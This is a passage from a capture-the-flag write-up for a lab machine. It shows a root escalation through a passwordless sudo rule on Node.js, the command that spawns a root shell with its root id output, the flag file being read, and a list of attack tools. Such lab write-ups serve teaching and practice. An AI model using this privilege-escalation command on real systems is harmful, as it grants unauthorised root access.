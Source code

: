 The output showed that the `news` user could run `/usr/bin/node` as `root` without a password (`NOPASSWD`). This is a common privilege escalation vector.

I used Node.js to spawn a root shell:

```shellscript
news@relevant:/home/h4x0r$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

This command executes a Node.js script that spawns a `/bin/sh` shell with the standard input/output/error streams inherited from the current process, effectively giving me a root shell.

```shellscript
# id
uid=0(root) gid=0(root) groups=0(root)
```

I had successfully escalated privileges to root!

### Root Flag

Finally, I navigated to the `/root` directory to find the `root.txt` file.

```shellscript
# cd /root
# ls
installs  root.txt  snap
# cat root.txt
_______                                        _______  _______           _
(  ___  )|\     /||\     /||\     /|  |\     /|(  ____ \(  ___  )|\     /|( )
| (   ) || )   ( || )   ( || )   ( |  ( \   / )| (    \/| (   ) || )   ( || |
| (___) || | _ | || | _ | || | _ | |   \ (_) / | (__    | (___) || (___) || |
|  ___  || |( )| || |( )| || |( )| |    \   /  |  __)   |  ___  ||  ___  || |
| (   ) || || || || || || || || || |     ) (   | (      | (   ) || (   ) |(_)
| )   ( || () () || () () || () () |     | |   | (____/\| )   ( || )   ( | _
|/     \|(_______)(_______)(_______)     \_/   (_______/|/     \||/     \|(_)

_______             _______  _______ _________   _______  _______  _______ _________ _
|\     /|(  ___  )|\     /|  (  ____ \(  ___  )\__   __/  (  ____ )(  ___  )(  ___  )\__   __/( )
( \   / )| (   ) || )   ( |  | (    \/| (   ) |   ) (     | (    )|| (   ) || (   ) |   ) (   | |
 \ (_) / | |   | || |   | |  | |      | |   | |   | |     | (____)|| |   | || |   | |   | |   | |
  \   /  | |   | || |   | |  | | ____ | |   | |   | |     |     __)| |   | || |   | |   | |   | |
   ) (   | |   | || |   | |  | | \_  )| |   | |   | |     | (\ (   | |   | || |   | |   | |   (_)
   | |   | (___) || (___) |  | (___) || (___) |   | |     | ) \ \__| (___) || (___) |   | |    _
   \_/   (_______)(_______)  (_______)(_______)   )_(     |/   \__/(_______)(_______)   )_(   (_)

Nice work!  Congratulations!  Let me know what you think:  @iamv1nc3nt
```

The root flag was embedded in the ASCII art and the final message.

### Tools Used

- `netdiscover` - Network discovery
- `nmap` - Port scanning and service version detection
- `gobuster` - Directory and file enumeration
- `wpscan` - WordPress vulnerability scanning
- `searchsploit` - Searching for exploits
- `python3` - Executing exploit scripts and custom code
- `nc` (netcat) - Setting up listeners for reverse shells
- `cat` - Viewing file contents
- `ls` - Listing directory contents
- `cd` - Changing directories
- `su` - Switching user
- `sudo` - Checking and exploiting sudo privileges
- `hashid` (implied) - Identifying hash types
- `john` (implied) - Cracking password hashes
